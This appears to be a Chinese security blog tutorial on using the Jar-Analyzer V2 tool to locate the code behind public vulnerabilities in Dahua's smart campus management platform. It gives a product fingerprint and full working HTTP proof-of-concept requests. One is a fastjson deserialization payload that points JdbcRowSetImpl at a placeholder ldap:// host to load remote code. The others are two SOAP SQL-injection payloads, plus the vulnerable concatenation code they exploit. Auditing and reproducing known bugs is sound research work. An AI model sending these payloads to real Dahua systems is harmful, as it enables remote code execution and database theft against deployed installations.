




# 代码审计工具篇-Jar-Analyzer V2


## 为什么使用Jar-Analyzer V2

主要使用的原因有：1.电脑有点拉，我的丐版m1启动idea放个大点的oa进去就要红温了😇而Jar-Analyzer V2生成数据库查询时cpu占用率只有百分之十几。2.在审计时我喜欢看一下以前的漏洞的原理，自己手动翻太麻烦了急需自动化，所以当时看到许少的Jar-Analyzer就下下来用了一哈。


之前许少最开始的项目是jar-analyzer-cli，跑完项目之后生个一个数据库，需要自己写sql语句查询，现在的话可以直接gui用方法调用搜索或者spel或者sql语句查询，工具本身也自带了一键查询常见java漏洞的功能，并且可以一键分析Spring Controller/Mapping(虽然有的会漏掉)，此外还有call功能查看调用关系，所以Jar-Analyzer V2对于漏洞复现国产oa漏洞和挖掘0day还是十分方便的。


下面以大华举例复现一下漏洞，大华有不少fastjson漏洞

## 大华 智慧园区管理平台

## 指纹

app.name="Dahua 大华 智慧园区管理平台"


如下面这个公开的fastjson漏洞

```
POST /CardSolution/card/accessControl/swingCardRecord/deleteFtp HTTP/1.1
Host: Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9Cookie: yourCookieConnection: close
Content-Type: application/json
Content-Length: 189

{"ftpUrl":{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://x.x.x.x","autoCommit":true}}}
```

直接拿Jar-Analyzer V2将CardSolution文件夹导入或者直接将整个项目导入，直接使用查找fastjson漏洞功能




在查询结果找一下哪些类有deleteFtp就好了




下面来查找一下大华存在的sql注入


```
POST /portal/services/clientServer HTTP/1.1
Host:xxx
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: text/xml;charset=UTF-8

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:cli="http://clientServer.webservice.dssc.dahua.com">
  <soapenv:Header/>
  <soapenv:Body>
  <cli:getGroupInfoListByGroupId>
    <!--type: string-->
      <arg0>-5398) UNION ALL SELECT 5336,5336,5336,5336,md5(123456)-- -</arg0>
    <!--type: long-->
    <arg1>10</arg1>
    </cli:getGroupInfoListByGroupId>
    </soapenv:Body>
  </soap:Envelope>
```

从poc中getGroupInfoListByGroupId中存在sql注入，直接方法调用查询getGroupInfoListByGroupId，然后来到serviceimpl文件中，可以看到第一个参数会传入getGroupInfoBeanListByGroupId中



```
   public String getGroupInfoListByGroupId(String groupId, Long id) {
      try {
         returnBean.setResult("true");
         List groupInfoList = this.groupInfoManagerImpl.getGroupInfoBeanListByGroupId(groupId);
      }
   }

```

继续查询getGroupInfoBeanListByGroupId



可以看到又被传入groupInfoDaoImpl.getGroupInfoBeanListByGroupId，直接打开groupInfoDaoImpl

源码大致如下

```
   public List getGroupInfoBeanListByGroupId(String groupId) {
      String sql = "select x from x t left join  ( select  xxx) temp on xx = x  where 1=1 ";
      if (null != groupId && !StringUtil.isEmpty(groupId)) {
         sql = sql + " and  " + this.getOracleSqlIn(groupId, "t.groupid");
```

可以看到这里 sql = sql + " and  " + this.getOracleSqlIn(groupId, "t.groupid");直接拼接导致sql注入


大华的另一个getNewStaypointDetailQuery也可以这样快速定位出来

```
POST /portal/services/carQuery/getNewStaypointDetailQuery HTTP/1.1
Host:xxx
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: text/xml;charset=UTF-8
Content-Length: 491

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:car="http://carQuery.webservice.dssc.dahua.com">
<soapenv:Header/>
<soapenv:Body>
<car:getNewStaypointDetailQuery>
<!--type: string-->
<searchJson>{}</searchJson>
<!--type: string-->
<pageJson>{"orderBy":"1 and 1=updatexml(1,concat(0x7e,md5(123456),0x7e),1)--"}</pageJson>
<!--type: string-->
<extend>quae divum incedo</extend>
</car:getNewStaypointDetailQuery>
</soapenv:Body>
</soapenv:Envelope>
```

